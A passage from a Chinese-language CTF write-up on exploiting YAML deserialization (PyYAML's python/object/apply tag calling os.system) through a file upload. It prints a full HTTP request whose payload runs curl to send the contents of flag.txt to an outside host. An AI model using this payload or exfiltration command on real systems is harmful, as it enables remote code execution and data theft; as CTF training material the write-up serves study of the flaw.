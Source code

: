 ```
mnt
opt
proc
requirements.txt
root
run
sbin
srv
static
sys
templates
test.py
tmp
usr
var
&lt;/code&gt;&lt;/li&gt;&lt;/ul&gt;
```

正如上面这段代码所示，Payload能够正常工作，这也就意味着我们能够在目标服务器上实现远程代码执行了！接下来，我们要做的就是读取flag.txt了…

但是在研究了一下之后，我迅速发现了上述方法中存在的一个限制因素:即它只能运行一种命令，例如ls和whoami等等。这也就意味着，我们之前的这种方法是无法读取到flag的。接下来我还发现，os.system（Python调用）同样能够实现远程代码执行，而且它还可以运行多个命令。但是在进行了尝试之后，我发现这种方法根本就行不通，因为服务器端返回的结果是“0”，而且我也无法查看到我的命令输出结果。因此我们又不得不想办法寻找更好的解决方案了，我的同事[@n0j](https://n0j.github.io/)发现，如果命令成功运行的话，os.system["command_here"]将只会返回退出代码"0"，而由于Python处理子进程执行的特殊方式，我们也无法查看到命令输出结果。因此，我尝试注入了如下所示的命令来读取flag: 

```
curl https://crowdshield.com/?`cat flag.txt`
```

**HTTP请求**



```
POST / HTTP/1.1
Host: ganon.39586ebba722e94b.ctf.land:8001
User-Agent: Mozilla/5.0 (compatible; Googlebot/2.1; +http://www.google.com/bot.html)
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Referer: http://ganon.39586ebba722e94b.ctf.land:8001/
Connection: close
Content-Type: multipart/form-data; boundary=---------------------------200783363553063815533894329
Content-Length: 438
 
-----------------------------200783363553063815533894329
Content-Disposition: form-data; name="file"; filename="test.yaml"
Content-Type: application/x-yaml
 
---
"goodbye": !!python/object/apply:os.system ["curl https://crowdshield.com/?`cat flag.txt`"]
 
-----------------------------200783363553063815533894329
Content-Disposition: form-data; name="upload"
 
 
-----------------------------200783363553063815533894329--
 
 
&lt;/div&gt;
 
  &lt;div class="container main" &gt;
    &lt;div&gt;
        &lt;div class="col-md-12 main"&gt;
           
```